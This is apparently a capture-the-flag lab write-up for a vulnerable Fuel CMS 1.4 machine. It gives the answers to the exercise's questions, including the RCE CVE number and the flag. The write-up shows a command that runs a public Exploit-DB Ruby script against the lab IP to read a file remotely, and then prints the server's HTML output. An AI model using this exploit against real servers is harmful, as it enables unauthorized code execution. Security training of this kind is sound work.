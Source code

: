`Exploit the Machine (Flag Submission) `


## Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.

### What is the name of the application running on the vulnerable machine?
`Fuel Cms`

### What is the version number of this application?
`1.4`

### What is the number of the CVE that allows an attacker to remotely execute code on this application?
###### Format: CVE-XXXX-XXXXX
`CVE-2018-16763`

## Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.
###### Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)
https://www.exploit-db.com/exploits/49487
### What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
```bash
ruby 49487.rb "http://10.10.166.40" "cat%20/home/ubuntu/flag.txt" | grep "</div>*"
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>system
</div>THM{ACKME_BLOG_HACKED}
</div>
</div>
</div>
</div>
<div class="clear"></div>               
<input type="hidden" name="selected" id="selected" value="" /></div>
    </div>
    <div class="clear"></div>
</div>
            <input type="hidden" name="fuel_inline" id="fuel_inline" value="1" />       </div>
    </div>
</div>
<div id="fuel_modal" class="jqmWindow"></div>
```

```
i did little bit change to the code , since it will not print anything by default.
```

`THM{ACKME_BLOG_HACKED}`
